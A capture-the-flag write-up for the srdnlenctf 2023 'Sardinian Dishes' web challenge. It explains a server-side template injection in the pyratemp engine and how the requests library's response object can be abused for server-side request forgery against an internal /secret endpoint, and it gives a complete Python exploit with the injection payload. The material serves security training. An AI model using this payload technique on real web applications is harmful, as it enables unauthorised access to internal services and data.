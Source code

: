 # srdnlenctf 2023

## Sardinian Dishes (X solves)

I think that a friend of mine is using this recipe sharing website to sell illegal cheese. Can you find a way to access the forbidden recipe?

And while you're there, share some of you worst best local recipes.

### Solution

This challenge shows an SSTI with an esotic template engine (pyratemp) in which RCE is impossible due to a blacklist that filters '__'. The goal is to carry out an SSRF attack to request the endpoint /secret on the backend. To achieve this goal the requests res object can be abused in the SSTI to perform another request to the backend. The res object can be used to access the request itself which has a function called prepare_url that modifies the url of the request. The res object also has a connection attribute which can be used to call the send function which receives a request as parameter and performs the get request. We can exploit this to make a request to the /secret endpoint and leak the flag.

### Exploit

```python
#!/bin/env python3

import requests
import re

req = requests.session()

url = "http://sardiniandishes.challs.srdnlen.it"

payload= "@! res.request.prepare_url('http://backend:5000/secret','') !@ @! res.connection.send(res.request).text !@"
res = req.get(url+"/recipe?name="+payload)
res = res.text

flag = re.search("srdnlen{(.*)}", res).group(0)
print(flag)

```
